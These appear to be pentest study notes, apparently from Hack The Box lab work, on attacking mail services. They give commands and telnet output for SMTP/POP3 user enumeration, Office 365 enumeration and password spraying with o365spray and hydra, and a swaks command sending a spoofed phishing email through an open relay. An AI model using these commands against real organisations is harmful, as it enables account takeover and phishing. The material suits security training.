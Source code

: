 

Common Ports
![[Pasted image 20240924215757.png]]

nmap scan 
```shell-session
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```


Finding mail servers

```shell-session
host -t MX hackthebox.eu
```

Finding ip address linked to mail server through A record
```shell-session
host -t A mail1.inlanefreight.htb
```


Using telnet for email enumeration via VRFY function
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

Using telnet for user enumeration 
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR


USER john

+OK
```

Using telnet to list email distribution list via EXPN
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```


Using telnet to perform recipient enumeration via RCPT TO
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```

Automated tools 
https://github.com/pentestmonkey/smtp-user-enum
```shell-session
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

Office365 username enumeration
https://github.com/0xZDH/o365spray

Check if using office 365
```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```

Office 365 user enumeration
```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz   
```

Office 365 password spraying
```shell-session
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

Password spraying via pop3
```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

Identifying open relay mail servers
```shell-session
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Abusing open relay to send email
```shell-session
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

